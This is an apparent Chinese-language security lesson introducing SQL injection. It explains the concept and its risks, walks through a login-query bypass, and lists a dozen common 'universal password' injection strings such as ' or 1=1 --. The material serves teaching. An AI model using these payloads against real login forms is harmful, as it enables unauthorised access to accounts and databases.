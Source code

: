 # 201-A3-SQL注入（上）

从本节开始，我们将学习SQL注入漏洞。在学习本节课之前，请务必复习并理解前文中有关mariadb的知识。

## 1.SQL注入的概念

SQL注入 （SQL Injection）：通过把SQL命令插入到Web表单递交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令。

具体来说，它是利用现有应用程序，将（恶意）的SQL命令注入到后台数据库引擎执行的能力，它可以通过在Web表单中输入（恶意）SQL语句得到一个存在安全漏洞的网站上的数据库，而不是按照设计者意图去执行SQL语句。

首先让我们了解什么时候可能发生SQL Injection。

假设我们在浏览器中输入URL www.sample.com，由于它只是对页面的简单请求无需对数据库动进行动态请求，所以它不存在SQL Injection，当我们输入www.sample.com?testid=23时，我们在URL中传递变量testid，并且提供值为23，由于它是对数据库进行动态查询的请求（其中?testid＝23表示数据库查询变量），所以我们可以该URL中嵌入恶意SQL语句。 

## 2.SQL注入的安全隐患

一旦应用中存在sql注入漏洞，就可能会造成如下影响:

1. 数据库内的信息全部被外界窃取。
2. 数据库中的内容被篡改。
3. 登录认证被绕过
4. 其他，例如服务器上的文件被读取或修改/服务上的程序被执行等。

## 3. SQL注入产生的过程

如果一个网站使用数据库来存储用户登录信息，并执行如下的SQL语句进行登录尝试：
    `select * from users where username='farmsec'  and password='123456'`
在这种情况下，攻击者可注入用户名或密码字段，以修改应用程序执行的查询，从而破坏它的逻辑。例如攻击者知道应用程序的username为farmsec，那么他就可以通过提交一下用户名和任意密码，以管理员的身份登录：
      `farmsec' -- `
应用程序将执行以下查询：
      `select * from users where username='farmsec' --' and password='sadfas'`
于是乎这个查询完全避开了密码检查。

这也引出了经典的万能密码问题。

有些网站的登录页面其背后的逻辑就是上文中的语句。

我们可以在密码部分注入：` 'or 1=1 -- `

那么整个句子就变成：

​      `select * from users where username='farmsec' and password=''or 1=1 --`

因为1永远等于1，登录验证就会被绕过。

一些常见的万能密码形式：

```
'or'='or'
admin'-- 
admin' or 4=4-- 
admin' or '1'='1'-- 
"or "a"="a
admin' or 2=2#
a' having 1=1#
a' having 1=1-- 
admin' or '2'='2
')or('a'='a
or 4=4-- 
```
